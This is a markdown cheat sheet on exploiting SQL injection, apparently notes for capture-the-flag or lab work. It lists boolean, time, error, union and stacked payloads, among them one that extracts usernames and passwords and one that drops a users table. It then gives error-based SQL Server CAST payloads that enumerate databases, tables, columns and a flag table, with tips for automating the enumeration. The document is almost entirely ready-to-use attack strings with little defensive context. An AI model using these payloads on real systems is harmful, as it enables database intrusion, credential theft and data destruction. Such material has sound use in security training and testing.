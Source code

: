 ## 💥 Exploiting SQL Injection

Types:

- **Boolean-based**: `' AND 1=1 --`
- **Time-based**: `' AND SLEEP(5) --`
- **Error-based**: `extractvalue('',concat('>',version()))`
- **Union-based**: `' UNION SELECT NULL, username, password FROM users --`
- **Stacked**: `'; DROP TABLE users; --` (if allowed)

---

### Error Base SQL Injection (SQL SERVER)

Errorbase
MySQL

```sql
extractvalue('',concat('>',version()))
```

SQL Server

```sql
cast(@@version as integer)
```

```sql
cast((SELECT name FROM sys.databases
WHERE database_id = 1;) as int)
```

```sql
cast((SELECT TOP 1 flag FROM App.dbo.flags;) as int);
```

```sql
CAST((SELECT name
FROM app.sys.tables
ORDER BY name
OFFSET 2 ROWS FETCH NEXT 1 ROWS ONLY) AS INT);
```

Tips:

    - Keep incrementing the OFFSET to walk through the table names.

    - Use a script if possible to automate it.

     -Make note of each table name from the error message.

```sql
CAST((SELECT name FROM app.sys.tables ORDER BY name OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY) AS INT)
```

```sql
CAST((
  SELECT name
  FROM app.sys.columns
  WHERE object_id = OBJECT_ID('app.dbo.flags')
  ORDER BY name
  OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY
) AS INT)
```
